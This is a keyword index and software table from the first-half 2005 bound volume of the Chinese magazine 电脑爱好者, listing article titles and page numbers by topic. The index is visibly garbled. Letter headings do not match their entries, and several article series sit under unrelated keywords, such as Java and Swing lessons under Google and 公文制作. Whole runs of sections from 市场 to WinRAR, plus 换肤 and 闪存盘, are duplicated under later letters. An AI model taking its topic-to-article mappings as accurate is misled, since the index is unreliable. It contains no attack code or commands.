2005年（上）关键词检索

## [A]

- ★ 3ds max
  - 202 从静物到科幻大片——3ds max上手指南

- ★ Access
  - 193 1小时学会 Access 轻松打造个人图书管理系统
  - 218 菜鸟学用 Access 轻松打造花店订单系统

- ★ ACDSee
  - 182 ACDSee 我不仅仅只能看图片

- ★ Authorware
  - 144 Authorware：不会编程也能制作专业多媒体
  - 211 用 Authorware 制作英语课件

- ★ AutoCAD
  - 156 六大任务玩转 AutoCAD

## [B]

- ★ BIOS
  - 383 硬派讲堂之刷新主板 BIOS
  - 388 硬派讲堂之特色刷新主板 BIOS
  - 392 在 Windows 下巧用 RivaTuner 备份显卡 BIOS

- ★ Blog
  - 324 今天 我要在家做主编

- ★ BT
  - 23 BT 犯法，谁在违规？
  - 316 下一代 BT 软件来了
  - 328 轻松做个寻种大师

- ★ 暴风影音
  - 141 用暴风影音体验完美视频效果
  - 141 让暴风影音使用 WinAMP 的 DFX 插件

- ★ 备份
  - 92 把根留住——备份 Windows 密码
  - 95 赤手空拳备份注册表
  - 392 在 Windows 下巧用 RivaTuner 备份显卡 BIOS

- ★ 比特精灵
  - 300 改参数 让比特精灵极速狂飙

- ★ 笔记本电脑
  - 22 2005 笔记本厂商演绎“天下无贼”
  - 27 Sonoma 引发笔记本之争
  - 358 巧辨本本返修货
  - 363 购买本本三点式
  - 367 笔记本电脑屏幕分辨率一点通
  - 373 笔记本电脑日常保养与维护终极指导
  - 376 IBM 学生机欲与水货机试比低
  - 379 IBM ThinkPad 笔记本电脑型号解密
  - 390 要买本本的你 该何时出手？

- ★ 编程
  - 54 搭积木的乐趣 六小时玩转 VB
  - 143 麻将对对碰 游戏自己编
  - 150 用 Delphi 编写圆周率模拟器
  - 343 亲手编 QQ 10万代码很一般！

- ★ 编辑软件
  - 229 让 EmEditor 实用功能更上一层楼

- ★ 并行处理
  - 19 SLI 复活 并行处理大行其道

- ★ 病毒
  - 236 谣言猛于“毒”
  - 397 杀木马的软件居然带病毒？

## [C]

- ★ COPY
  - 103 今天 你 COPY 了吗
  - 255 比格式刷更强的格式复制

- ★ CorelDraw
  - 165 CorelDraw: 成就平面设计师

- ★ CPU
  - 17 频率游戏的终结
  - 18 P5，换个马甲我也认识你
  - 35 32 位后劲仍足 64 位只欠东风？
  - 89 “两个” CPU 我该如何用好它们
  - 355 不开机箱认识自己的 CPU
  - 378 双核心处理器决战新时代
  - 382 飞奔的 CPU，让我看清你

- ★ CS
  - 326 弹出窗口 打 CS 时我最恨你
  - 396 今天我们要“爆”CS 故障的“头”

- ★ 彩蛋
  - 227 新鲜的彩蛋挖出来

- ★ 操作系统
  - 132 来！让我们一起偷窥操作系统的隐私（上）

- ★ 插件
  - 141 让暴风影音使用 WinAMP 的 DFX 插件

- ★ 查找替换
  - 248 旧“查找” 新“替换”

- ★ 超级解霸
  - 152 电脑中的超级影碟机——超级解霸

- ★ 超级兔子
  - 101 我与超级兔子的恋爱史

- ★ 重装系统
  - 68 待从头，收拾旧河山——Windows 重装大宝典

## [D]

- ★ DC
  - 366 香港中英街购DC 连环骗术
  - 368 购买DC 无“奸”道
  - 379 玩转DC 闪光模式
  - 387 让你的照片更清晰 DC“防抖”有绝招

- ★ Delphi
  - 150 用 Delphi 编写圆周率模拟器

- ★ DirectX
  - 124 DirectX 到底是谁

- ★ DIY
  - 26 DIY 时代奏响休止符？
  - 29 我谈《DIY 时代奏响休止符？》
  - 91 电脑里面开出版社 轻松自制电子书
  - 139 QQ 动态表情自己做
  - 143 麻将对对碰 游戏自己编
  - 153 给你的光盘“穿件漂亮的外衣”
  - 159 我的第一款 Software 发布啦
  - 167 手机铃声DIY 彰显个性
  - 170 自制只有一个文件的绿色软件
  - 187 利用 NeroVision Express 轻松自制专业 VCD
  - 189 DIY 集多引擎为一身的搜索器

- ★ DNS
  - 352 网络铁面“签证官”——DNS

- ★ DOS 命令
  - 98 步步为营 轻松玩转 DIR 命令
  - 105 DOS 快餐店[番外篇]
  - 106 磁盘清道夫——del 和 rd 的故事
  - 112 连根拔起——共享的二次登录
  - 113 文件移形换位大法
  - 116 黑底白字的计划书
  - 135 比 MD 更快、更方便地建立文件夹
  - 173 DOS 快餐店(一)

- ★ Dreamweaver
  - 237 学会 Dreamweaver，1 小时做好个人网站

- ★ DVD
  - 357 DVD 刻录速度之谜

- ★ DVD 刻录机
  - 381 Firmware 升级就这么简单

- ★ 打印耗材
  - 359 兼容墨水的品质真的和原厂一样？!
  - 367 喷墨打印机耗材节省完全方案

- ★ 打印机共享
  - 360 活学活用打印机共享

- ★ 代理服务器
  - 302 触摸代理服务器的“敏感区”
  - 305 突破教育网 舒舒服服用代理

- ★ 待机
  - 120 Windows:俺是这样休息的！
  - 394 关于待机、休眠的经典问答

- ★ 电池
  - 359 当电老虎遇到高电量电池
  - 370 图解真假尼康锂电池

- ★ 电源
  - 376 OCCT: 为你的电源把把脉
  - 389 差点被电源线“谋杀”的硬盘

- ★ 电子签名法
  - 33 《电子签名法》正式生效 应用从电子印章开始

- ★ 动画
  - 43 “闪”了“闪”了——Flash 动画制作一日通
  - 194 学用 Flash 遮罩层 打造超酷动画效果
  - 195 又晃又抖 制作酷酷的震动签名
  - 202 从静物到科幻大片——3ds max 上手指南

- ★ 断点续传
  - 87 复制海量文件 如何断点续传？

- ★ 多媒体
  - 148 让 Real 媒体在影碟机上播放
  - 148 剪辑多媒体 留住最美的那一刻
  - 167 烦人的网页请走开 不要打扰我看片
  - 168 为 Real 媒体添加视频热点
  - 169 制作完美的 RMVB 文件
  - 177 让 Real 视频自动打开网页
  - 205 挑战极限！制作 220 分钟的 VCD 光盘
  - 226 让马赛克和爆音远离你的 VCD、CD
  - 234 关于《挑战极限！制作 220 分钟的 VCD 光盘》补遗
  - 236 数码相片摇身速变 VCD

## [E]

- ★ EmEditor
  - 229 让 EmEditor 实用功能更上一层楼

- ★ Excel
  - 145 麻辣水浒之 Excel 2003
  - 244 专业电路图 Excel 也能行
  - 245 对付多余表格空行就这么容易
  - 247 凝固在 Excel 中的乐章
  - 248 为 Excel 加装快捷的公式保护器
  - 253 免费秘书 Excel 事事及时提醒你
  - 253 调查问卷 Excel 全搞定
  - 255 解除 Excel 数据保护之“葵花宝典”
  - 258 用 Excel 建立模拟考试系统
  - 260 用好 Excel 的双面打印

- ★ 耳机
  - 385 耳机选购除了听，还是要看的——浅谈优质耳机的一些外观特征
  - 97 慢！慢！慢！原来是它惹的祸
  - 131 Windows XP SP1 的神秘“死亡”
  - 394 七招排除软件安装故障

- ★ 关机
  - 86 这样关机才有用 才够酷！

- ★ 光盘
  - 366 教你正确清洁光盘

- ★ 光驱
  - 389 买光驱的爆笑故事——此 52X 与彼 16X

## [F]

- ★ Fireworks
  - 175 Fireworks——焰火中的美丽
  - 232 动态 QQ 表情 DIY Fireworks 轻松搞定

- ★ Flash
  - 43 “闪”了“闪”了——Flash 动画制作一日通
  - 174 打造超酷 Flash 桌面小时钟
  - 184 Flash 与 Word 联姻 闪出精美艺术字
  - 194 学用 Flash 遮罩层 打造超酷动画效果
  - 220 可移动可报时的桌面小闹钟
  - 240 妙用“Flash 橡皮擦”“改”出精彩
  - 323 我是一只猎杀 Flash 的狐狸

- ★ Foxmail
  - 191 抓只狐狸当邮差——Foxmail

- ★ FSAA
  - 375 FSAA 快速入门

- ★防黑
  - 219 ADSL 防黑小技巧
  - 238 发挥潜能，IceSword 功能再发掘

- ★ IP
  - 347 IP 知识补习班

- ★ 防火墙
  - 88 XP SP2 防火墙实战策略
  - 221 别把我当广告——简单设置解决 NIS 与 BBSXP 不兼容问题

- ★ ISO 文件
  - 159 超越 ISOEMU 用 ISO 文件重装 Windows
  - 178 秘技！如何将两个 ISO 刻到一张盘上
  - 199 ISO 的魔法“缩小灯”

- ★ 服务器
  - 317 五分钟 你的电脑变成服务器

- ★ IT 资讯
  - 17 2005·IT 春天的约会
  - 25 免费午餐不好得

## [G]

- ★ Gmail
  - 332 好用不难学 Gmail 玩得飞起来

- ★ Google
  - 28 2005，Google 意欲何为
  - 171 Java 咖啡馆(11)——Java 插件技术

- ★ 公文制作
  - 249 正规公文制作有一套
  - 180 Java 咖啡馆(12)——Tic-Tac-Toe

- ★ 故障恢复控制台命令
  - 90 用好故障恢复控制台命令
  - 190 Java 咖啡馆(13)——终结者
  - 199 Swing 跟我学之游戏设计(1)
  - 209 Swing 跟我学之游戏设计(2)
  - 217 Swing 跟我学之游戏设计(3)
  - 228 Swing 跟我学之游戏设计(4)

- ★ 即时通讯
  - 35 她来了 “真视频” 沟通时代还远吗？

- ★ 记事本
  - 169 日记 日记 用电脑来记

- ★ 兼容
  - 100 让 Windows 支持 Linux 命令

- ★ 剪辑
  - 148 剪辑多媒体 留住最美的那一刻

- ★ 剪贴板
  - 178 给 Windows 换个强力剪贴板

- ★ 脚本
  - 115 免费请个贺卡快递员

- ★ 进程
  - 198 去除 Realsched.exe 进程何必舍近求远？

- ★ 局域网
  - 58 局域网的幸福生活

## [H]

- ★ 换肤
  - 121 Windows XP 为什么能变“大苹果”？
  - 397 再谈 XP 变“苹果”

- ★ FlashGet
  - 147 FlashGet 改造实录
  - 154 FlashGet 三大超精彩秘技
  - 222 FlashGet 超越下载极限

- ★ IE
  - 306 给 IE 换上新“冬衣”吧
  - 314 给 IE 工具栏装个新建空白页按钮
  - 322 IE 窗口的小图标你会用吗
  - 328 IE 历史记录我做主
  - 337 强！IE 摇身变 Maxthon
  - 340 微软的“鸿门宴”——IE 7.0 能给我们带来什么

- ★ IE 外挂
  - 109 IE 外挂生成计划

- ★ Intel
  - 23 BTX 再现 Intel 利己主义

## [I]

- ★ Java
  - 159 Java 咖啡馆(10)——情人节的 Applet

## [J]

- ★ 看图软件
  - 95 看图从来没有这样轻松

- ★ 刻录
  - 158 隐藏着小秘密的爱心 CD

- ★ 课件
  - 211 用 Authorware 制作英语课件

- ★ 快速启动栏
  - 96 狂喂补药 快速启动栏变成 Super 启动栏

- ★ LCD
  - 380 细说 LCD 响应时间

- ★ 聊天
  - 314 简简单单完成好友转移

- ★ 浏览器
  - 189 浏览器被劫持了怎么办
  - 305 打开浏览器就能用 Photoshop
  - 320 和 MM 一同看网去
  - 323 让浏览器暂时停用广告屏蔽
  - 327 浏览器也能体验“简单爱”

- ★ 乱码
  - 93 认出文本文件中的“小黑子”
  - 397 巧用工具修改“乱码”文件名

- ★ 论坛
  - 338 瞬间成为论坛高手
  - 339 论坛帖子随身带

- ★ 论文写作
  - 250 毕业论文写作全攻略

## [K]

- ★ McAfee
  - 151 “咖啡” 你都做了些什么？

- ★ MP3
  - 77 我爱音乐 我爱 MP3—我和 MP3 的 22 个瞬间
  - 374 按需索机—MP3 播放机实用功能轮番数
  - 389 MPV, MP3 的加减法
  - 393 让 MP3 连续 23 小时播放——电池升级手记
  - 398 拿什么拯救你，我的 MP3

- ★ MSN
  - 142 给 MSN Messenger 7.0 补上手写功能
  - 334 新的 MSN Messenger 我还要你更个性！
  - 340 MSN Messenger 也能给离线好友留言啦！
  - 345 MSN 7.0 不能传 EXE 文件了？

- ★ 蒙版
  - 123 图像“医疗”助手：蒙版

- ★ 密码
  - 32 小心窃取密码的卧底
  - 92 把根留住—备份 Windows 密码
  - 94 可怜的密码，我要保护你！
  - 199 你的密码安全吗？

- ★ 命令行方式
  - 111 和“运行”心有灵犀

- ★ 模拟器
  - 81 跨越时空的爱恋——走进游戏模拟器的世界

- ★ 墨水
  - 359 兼容墨水的品质真的和原厂一样？!

- ★ 木马
  - 127 木马 别和我玩躲猫猫
  - 170 小心被黑！木马生成器碰不得
  - 179 如何查杀隐形木马
  - 210 斩断系统“黑手” ——IceSword 冰刃
  - 227 检测文件是否捆绑木马
  - 236 一个简单查看指令巧防网页恶意代码

## [M]

- ★ Nero
  - 187 利用 NeroVision Express 轻松自制专业 VCD

- ★ Norton
  - 161 2005 年的网络安全套餐——Norton Internet Security 2005

- ★ NTFS
  - 117 NTFS 忘不了你的好

- ★ 内存
  - 357 不开机箱认识内存

- ★ 昵称设置
  - 302 我的昵称要抢夺你的眼球

- ★ Office 2003
  - 225 极限瘦身 Office 2003 安装包从 600MB 到 60MB！

- ★ Office 绘图
  - 255 揭开 Office 绘图之谜 打造个性化矢量酷图

- ★ OneKey
  - 166 解决 OneKey 的安装问题

- ★ Outlook
  - 151 找回丢失的 Outlook 账户密码
  - 161 快乐工作从 Outlook 开始……
  - 257 巧用 Outlook 会议筹备有条不紊
  - 312 让 OE 用新窗口打开网页链接

## [N]

- ★ PageMaker
  - 242 今天！我来做本《电脑爱好者》——学用专业排版软件 PageMaker

- ★ Photoshop
  - 153 给你的光盘“穿件漂亮的外衣”
  - 155 用 Photoshop 打造情人节礼物
  - 164 我的 iPod 我的青春摇摆
  - 166 妙手回春，还图像本来面目
  - 181 五步让照片换新颜
  - 184 在身体上做画 无痛体验人体彩绘
  - 192 在天空中写下“我爱你” ——云彩字制作
  - 197 轻轻松松学做 XP 风格图标
  - 204 Photoshop 中绘丹青 不是画家一样能泼墨
  - 210 圆你画家梦 一分钟照片变成水彩画
  - 216 给 Photoshop CS 装上得心应手的快捷工具栏
  - 220 足不出户 时尚发型随心变
  - 231 不用 CAD，Photoshop 也能求面积
  - 233 破“屏”而出——Photoshop 广告制作实战
  - 234 何时拥得“美人”归——Photoshop CS2 先睹为快
  - 239 清凉一夏——个性 T 恤 DIY

- ★ PowerPoint
  - 229 挡不住的魅力 尽在 PowerPoint

- ★ Premiere
  - 185 轻松做个大导演 学用 Premiere 制作电影

- ★ 批处理
  - 113 文件移形换位大法
  - 134 巧用批处理 自己打造 nLite 超强版
  - 136 批处理也玩“黑吃黑”
  - 137 让批处理帮你整理下载文件

- ★ 苹果产品
  - 21 明天，你会“苹果”吗？

## [O]

- ★ QQ
  - 139 QQ 动态表情自己做
  - 139 我的 QQ 头像不一样
  - 140 享受多人的音频聊天
  - 140 免费得 QQ 高级群
  - 165 随心所欲定制你的 QQ 性别
  - 232 动态 QQ 表情 DIY Fireworks 轻松搞定
  - 301 用 QQ 远程拯救我的 MM
  - 304 不是会员也玩 QQ 群
  - 305 有 QQ 还要 Flash 播放器干什么
  - 312 独辟蹊径 封杀 QQ 系统广播
  - 318 QQ 魔法表情 免费送给你
  - 321 QQ 超实用秘技大曝光
  - 322 QQ 网络硬盘可以多点下载了
  - 326 传说中 QQ 不被回收的秘技
  - 327 隐身好友 看我的如来神掌
  - 330 我的 QQ 你快回来
  - 331 胖企鹅要成“K 歌之王”了
  - 332 显隐身 让我看到透明的你
  - 335 新 QQ 新功能初体验
  - 337 胖企鹅，你给我跑快点！
  - 343 亲手编 QQ 10 万代码很一般！
  - 346 QQ“网事缉私档案”大揭秘
  - 349 小企鹅的大本营——QQ.com

- ★ 驱动程序
  - 62 硬件三国之驱动十面埋伏

## [P]

- ★ RSS
  - 318 玩转 RSS 天下信息随心看

- ★ 任务栏
  - 108 用 HTML“武装”你的任务栏

- ★ 瑞星
  - 147 使用瑞星个人防火墙保护上网安全
  - 181 巧用瑞星杀毒软件 2005 过滤垃圾邮件
  - 215 抢先启动杀毒牛在哪儿

## [Q]

- ★ SATA
  - 384 SATA 到底有多美

- ★ 杀毒
  - 142 中毒后遗症 妙手来清除
  - 143 文件型病毒的清除
  - 166 杀毒需注意的几个特殊目录及文件
  - 199 另类杀毒又一法

- ★ 闪存盘
  - 86 让你的闪盘即插即存
  - 115 不甘寂寞 闪存盘也玩 "Ghost"
  - 137 除去眼中钉：停用顽固闪存盘
  - 207 将你的闪存盘变为 "密钥盘"
  - 235 三步！闪盘变成启动盘

- ★ 上网
  - 299 拒绝繁琐 上网省时大法

- ★ 审核策略
  - 89 送你微软原装的 "系统摄像头"

- ★ 生字
  - 142 轻松读懂生僻字

- ★ 声卡
  - 356 便宜声卡降噪完全对策

- ★ 市场
  - 24 买东西你看产地吗
  - 37 原创软件者如何生财有道？
  - 362 非卖品也可以正常销售？！
  - 372 做工，不可忽视的问题
  - 381 质保：认签不认人
  - 386 保修期内更换的产品续保无期？！

- ★ 视频
  - 141 用暴风影音体验完美视频效果
  - 185 轻松做个大导演 学用 Premiere 制作电影
  - 188 只要改个名 RMVB 就变 VCD

- ★ 手机病毒
  - 20 手机，病毒又一滋生地

- ★ 手机铃声
  - 167 手机铃声 DIY 彰显个性

- ★ 输入
  - 97 玩转大小写和全半角

- ★ 输入法
  - 149 极点中文摇身变万能五笔
  - 150 将智能狂拼植入紫光拼音
  - 223 特殊符号！我要轻松输入你

- ★ 鼠标
  - 369 让无线鼠标 "休息" 一下

- ★ 数码相机
  - 39 好 "摄" 之途——数码相机拍摄实例剖析
  - 355 了解单反数码相机
  - 369 数码相机新手必读的五大拍摄技巧
  - 380 轻松学会查闪光表
  - 391 数码相机进阶应用——直方图：准确曝光的好帮手

- ★ 数码照片
  - 113 单张多图 看我的
  - 150 照片从模糊到清晰 CleanVue 帮你搞定
  - 154 让数码照片自动加日期
  - 175 让照片 "秀" 出不一样的风采
  - 182 数码照片仿真 "反转片"

- ★ 搜索
  - 28 2005，Google 意欲何为
  - 189 DIY 集多引擎为一身的搜索器
  - 303 脚踩多条船 做个搜索花心鱼
  - 344 惊人！网上答题之快搜作弊法！

- ★ 搜索引擎
  - 51 搜索引擎大考堂

- ★ Total Commander
  - 177 又见 Total Commander

- ★ 天文软件
  - 119 搂着电脑数星星

- ★ 通道
  - 122 图像处理软件的色彩车间——“通道”

- ★ 投影机
  - 373 投影机：别把参数当卖点

- ★ VB
  - 54 搭积木的乐趣 六小时玩转 VB

- ★ VBS 脚本
  - 183 三个 VBS 脚本帮你操作快快快

- ★ VCD
  - 205 挑战极限！制作 220 分钟的 VCD 光盘
  - 234 关于《挑战极限！制作 220 分钟的 VCD 光盘》补遗

- ★ Visual CD
  - 93 Visual CD 三步帮你管光盘

- ★ VMware 5.0
  - 234 体验全新虚拟技术 VMware 5.0

- ★ Web 服务器
  - 304 五分钟搭建 Web 服务器和论坛

- ★ Windows Media Player(WMP)
  - 201 用好 Media Player 休闲娱乐任我行

- ★ Windows XP
  - 133 我的 Windows XP 安装盘只有 200MB！
  - 138 Windows XP 你到底有几件 "马夹"

- ★ Windows XP SP2
  - 102 正解！XP SP2 连接上限官方修改法

- ★ Windows 权限
  - 112 用好 Windows 权限之剑——严防非法入侵

- ★ WinRAR
  - 172 WinRAR 不只是压缩那么简单

## [R]

- ★ 换肤
  - 121 Windows XP 为什么能变“大苹果”？
  - 397 再谈 XP 变“苹果”

## [S]

- ★ 闪存盘
  - 86 让你的闪盘即插即存
  - 115 不甘寂寞 闪存盘也玩 "Ghost"
  - 137 除去眼中钉：停用顽固闪存盘
  - 207 将你的闪存盘变为 "密钥盘"
  - 235 三步！闪盘变成启动盘

## [T]

- ★ 上网
  - 299 拒绝繁琐 上网省时大法

## [W]

- ★ 审核策略
  - 89 送你微软原装的 "系统摄像头"

## [X]

- ★ 生字
  - 142 轻松读懂生僻字

## [Y]

- ★ 声卡
  - 356 便宜声卡降噪完全对策

## [Z]

- ★ 市场
  - 24 买东西你看产地吗
  - 37 原创软件者如何生财有道？
  - 362 非卖品也可以正常销售？！
  - 372 做工，不可忽视的问题
  - 381 质保：认签不认人
  - 386 保修期内更换的产品续保无期？！

- ★ 视频
  - 141 用暴风影音体验完美视频效果
  - 185 轻松做个大导演 学用 Premiere 制作电影
  - 188 只要改个名 RMVB 就变 VCD

- ★ 手机病毒
  - 20 手机，病毒又一滋生地

- ★ 手机铃声
  - 167 手机铃声 DIY 彰显个性

- ★ 输入
  - 97 玩转大小写和全半角

- ★ 输入法
  - 149 极点中文摇身变万能五笔
  - 150 将智能狂拼植入紫光拼音
  - 223 特殊符号！我要轻松输入你

- ★ 鼠标
  - 369 让无线鼠标 "休息" 一下

- ★ 数码相机
  - 39 好 "摄" 之途——数码相机拍摄实例剖析
  - 355 了解单反数码相机
  - 369 数码相机新手必读的五大拍摄技巧
  - 380 轻松学会查闪光表
  - 391 数码相机进阶应用——直方图：准确曝光的好帮手

- ★ 数码照片
  - 113 单张多图 看我的
  - 150 照片从模糊到清晰 CleanVue 帮你搞定
  - 154 让数码照片自动加日期
  - 175 让照片 "秀" 出不一样的风采
  - 182 数码照片仿真 "反转片"

- ★ 搜索
  - 28 2005，Google 意欲何为
  - 189 DIY 集多引擎为一身的搜索器
  - 303 脚踩多条船 做个搜索花心鱼
  - 344 惊人！网上答题之快搜作弊法！

- ★ 搜索引擎
  - 51 搜索引擎大考堂

- ★ Total Commander
  - 177 又见 Total Commander

- ★ 天文软件
  - 119 搂着电脑数星星

- ★ 通道
  - 122 图像处理软件的色彩车间——“通道”

- ★ 投影机
  - 373 投影机：别把参数当卖点

- ★ VB
  - 54 搭积木的乐趣 六小时玩转 VB

- ★ VBS 脚本
  - 183 三个 VBS 脚本帮你操作快快快

- ★ VCD
  - 205 挑战极限！制作 220 分钟的 VCD 光盘
  - 234 关于《挑战极限！制作 220 分钟的 VCD 光盘》补遗

- ★ Visual CD
  - 93 Visual CD 三步帮你管光盘

- ★ VMware 5.0
  - 234 体验全新虚拟技术 VMware 5.0

- ★ Web 服务器
  - 304 五分钟搭建 Web 服务器和论坛

- ★ Windows Media Player(WMP)
  - 201 用好 Media Player 休闲娱乐任我行

- ★ Windows XP
  - 133 我的 Windows XP 安装盘只有 200MB！
  - 138 Windows XP 你到底有几件 "马夹"

- ★ Windows XP SP2
  - 102 正解！XP SP2 连接上限官方修改法

- ★ Windows 权限
  - 112 用好 Windows 权限之剑——严防非法入侵

- ★ WinRAR
  - 172 WinRAR 不只是压缩那么简单

## ★WinRAR
- 214 我的WinRAR自解压界面大不相同
- 214 我的WinRAR会换肤
- 214 让WinRAR支持的压缩扩展名更广一些
- 215 我的WinRAR预览网页更快速
- 215 让我的WinRAR安全多一点

## ★Word
- 248 Word中批量转换文档格式
- 251 我的作业你别抄——版权证书让Word文档更安全
- 252 随心所欲自出心裁——Word 2003特殊形状裁图攻略

## ★网管工具
- 213 网管的“秘宝”

## ★网络
- 24 Alexa排名，一个不见硝烟的战场

## ★网络安全
- 310 反间谍软件之“皇家近卫军”——Microsoft AntiSpyware
- 311 当心无线网变“无限网”
- 329 直击犯罪第一现场

## ★网络电视
- 30 陈天桥看好网络电视 数字电视也能玩网游

## ★网络广告
- 27 弹出广告 想说再见不容易

## ★网络连接
- 341 九大招搞定网络连接

## ★网络设置
- 102 笔记本 就要随需应变

## ★网络诈骗
- 169 小心！“网络钓鱼”就在你身边

## ★网络资源
- 313 请来专家 网易相册更快更强
- 313 绝对隐私！隐藏在互联网上的摄像头
- 314 网页一点即收藏Internet资讯大共享
- 318 玩转RSS 天下信息随心看
- 322 微软Spaces：分享空间 分享生活
- 336 今晚 我要做新闻主播！

## ★网文快捕
- 91 电脑里面开出版社 轻松自制电子书
- 197 一专多能 网文快捕的另类利用

## ★网页
- 338 一秒钟做出网页来
- 398 网页插件 让我欢喜让我忧

## ★网页制作
- 73 1天！我在网上安个家

## ★网站
- 31 个人网站真的会一夜消失？
- 34 个人网站的“身份证”——非经营性ICP备案登记
- 46 网站背后的故事
- 237 学会Dreamweaver，1小时做好个人网站

## ★网站Logo
- 339 爱“拼”才会赢 五分钟完成网站Logo

## ★网站探宝
- 347 找个网站当黑客
- 349 小企鹅的大本营——QQ.com
- 349 中国程序员的家——CSDN.net
- 350 火狐狸的中国家——FirefoxCN.com
- 350 回忆中的金点时空——GPGame.net
- 351 再探“黑窝”
- 353 风从这里吹来——PHPWind.net
- 354 讲述中国漫画人自己的故事

## ★网站制作

## ★显卡
- 362 不开机箱认识显卡

## ★显示器
- 124 垂直同步你凭什么影响我打CS
- 168 我的显示器在你的机器里
- 186 双显 就是这么神奇
- 386 CRT 显示器选购的6个妙招
- 393 显示器“低亮”怎么办？

## ★校友录
- 306 不是管理员也能在校友录放大片

## ★休眠
- 120 Windows:俺是这样休息的!
- 394 关于待机、休眠的经典问答

## ★虚拟桌面
- 101 1个DLL = 虚拟桌面

## ★液晶显示器
- 377 一分钟揪出液晶显示器的坏点

## ★一键恢复
- 140 比精灵更强悍 一键备份/恢复多分区

## ★音频
- 107 让Foobar2000转换MP3不再“卡”机
- 126 水能变油? RM转MP3音质会变好?

## ★硬件改造
- 361 让USB HUB与鼠标垫联姻
- 364 文稿夹加装照明灯
- 365 给USB HUB强身健体

## ★硬件知识
- 375 FSAA 快速入门
- 378 刷新率的三重外壳
- 384 SATA 到底有多美

## ★硬盘
- 105 让硬盘彻底告别1.99GB
- 371 不开机箱认识硬盘

## ★硬盘保护
- 99 硬盘，我要精心呵护你

## ★硬盘簇
- 131 数据:我要扎堆

## ★硬盘管理
- 207 DM万用版 免费的硬盘大管家

## ★邮件
- 161 快乐工作从Outlook开始……
- 191 抓只狐狸当邮差——Foxmail
- 198 找回丢失的邮件密码
- 307 垃圾邮件 你真的惹恼我了(上)
- 308 垃圾邮件 你真的惹恼我了(下)
- 309 不要我的信给个理由先
- 331 告急! OE、Foxmail无法接收Hotmail信件
- 336 邮件发出去之后，我后悔了……

## ★邮件合并
- 246 高效办公 我用“邮件合并”

## ★邮件列表
- 334 轻松做主编 快乐办份E杂志

## ★邮箱
- 320 送你六招 玩转Web邮箱
- 345 把你的GB邮箱变成超级下载基地!

## ★游戏
- 91 光盘版游戏完美转换硬盘版
- 199 Swing跟我学之游戏设计(1)
- 209 Swing跟我学之游戏设计(2)
- 217 黑客 就这样在游戏中炼成
- 217 Swing跟我学之游戏设计(3)
- 228 Swing跟我学之游戏设计(4)

## ★游戏模拟器
- 196 教你和远方朋友一起打游戏

## ★右键
- 93 补丁、软件装不上? 试试右键

## ★愚人节
- 106 整人宝典之愚人节诱惑

## ★远程控制
- 215 内网也能用远程控制
- 301 用TM远程做演示
- 301 用QQ远程拯救我的MM

## ★正则表达式
- 240 几小时变几秒钟 正则表达式实例秀

## ★主板
- 18 主板烧毁 谁之过
- 366 不开机箱认识主板

## ★注册表
- 95 赤手空拳备份注册表
- 117 谁说这里不能启动

## ★专利权
- 30 “语句提示技术”专利权如何行使?

## ★桌面
- 158 资源和美丽我全要 XP完美克隆Mac OS
- 231 FlyakiteOSX2.0 SE专为中文造

## ★桌面搜索
- 315 三个桌面搜索都是大腕 我该挑谁
- 325 本土化的百度桌面搜索来了

## ★字体
- 186 解决FlyakiteOSX字体变小问题
- 306 漂亮英文字体 请问你叫什么

## ★组策略
- 151 巧用策略 关闭无用端口

## ★组网
- 163 今天做个只有一台电脑的网络管理员

## 电脑爱好者合订本
### 2005年（上）软件检索
| 序号 | 页码 | 软件名称 | 软件说明 | 软件来源 |
|------|------|----------|----------|----------|
| 1 | 86 | Pen Drive Manager 1.0.0.35 | 插上闪盘文件就能自动复制 | 让你的闪盘即插即存 |
| 2 | 87 | CHKen FTP 1.0 | 迷你型的FTP服务器 | 复制海量文件 如何断点续传？ |
| 3 | 86 | Switch Off 2.3 | 通过浏览器就能关机的小软件 | 这样关机才有用 才够酷！ |
| 4 | 140 | OneKey 2.0光盘版 | 一键备份/恢复多分区 | 比精灵更强悍 一键备份/恢复多分区 |
| 5 | 142 | Windows Journal Viewer | Windows 日记本查看器，用来增加MSN Messenger的“手写”功能 | 给MSN Messenger 7.0补上手写功能 |
| 6 | 283 | 桌面壁纸自动换 | 微软出品的自己切换壁纸的小工具 | 新软物语 |
| 7 | 283 | BT搜宝 1.2 | 搜索BT种子的利器 | 新软物语 |
| 8 | 283 | Reflex 1.0 | 练习微操作的小游戏 | 新软物语 |
| 9 | 283 | ProxyCollector 1.2 | 可以搜索到近千个代理服务器的软件 | 新软物语 |
| 10 | 292 | IE 插件屏蔽 2005 Ver 0.5 | 能够屏蔽100多种ActiveX插件 | Cfan小白鼠 |
| 11 | 300 | KuGoo-V2(酷狗) 2.019 | 可以下载单曲、专辑的软件 | 用KuGoo下载整张专辑 |
| 12 | 301 | TM 3.0 Build1115 | 腾讯推出的即时通讯工具 | 用TM远程做演示 |
| 13 | 43 | 硕思闪客精灵 MX 2005 | Flash动画文件分析软件 | “闪”了“闪”了——Flash动画制作一日通 |
| 14 | 43 | Action Script Viewer 4.0 | 可以将Flash动画文件中的脚本代码分解出来 | “闪”了“闪”了——Flash动画制作一日通 |
| 15 | 91 | 网文快捕 4.2 beta 1 | 轻松制作电子书 | 电脑里面开出版社 轻松自制电子书 |
| 16 | 148 | Zealot RM to VCD SVCD DVD Converter 2.1 | 将Real文件转换为VCD、SVCD、DVD | 让Real媒体在影碟机上播放 |
| 17 | 148 | TMPGEnc 2.58 | 剪辑MPEG文件 | 剪辑多媒体 留住最美的那一刻 |
| 18 | 93 | Visual CD 1.9 | 替你管理你收藏的大量光盘 | Visual CD三步帮你管光盘 |
| 19 | 148 | RealMedia Editor 9.0.0.29 | 编辑Real媒体的免费小工具 | 剪辑多媒体 留住最美的那一刻 |
| 20 | 150 | CleanVue 1.1b | 让照片自动变得清晰 | 照片从模糊到清晰 CleanVue帮你搞定 |
| 21 | 283 | NetLimiter 1.30 | 限制使用带宽 | 新软物语 |
| 22 | 284 | 系统服务优化终结者 2.1.1 Final | 对系统服务进行自动优化 | 新软物语 |
| 23 | 284 | Mplayer+MPF+KK 全编码中文汉化集成版 | 非常适合老爷机使用的媒体播放器 | 新软物语 |
| 24 | 284 | QQ在线状态查询器 1.0 | 不用上QQ就能知道好友是否在线 | 新软物语 |
| 25 | 284 | CoolStreaming 0.0.40 | 利用BT原理的网络电视 | 新软物语 |
| 26 | 292 | 电脑消磁圣手 6.3 | 消磁防辐射 | Cfan小白鼠 |
| 27 | 154 | Photoshop Scripting Support 1.0 | 让Photoshop(7.0版以上)支持脚本编程 | 让数码照片自动加日期 |
| 28 | 304 | WAPM 1.0R2 | WEB服务器套装 | 五分钟搭建Web服务器和论坛 |
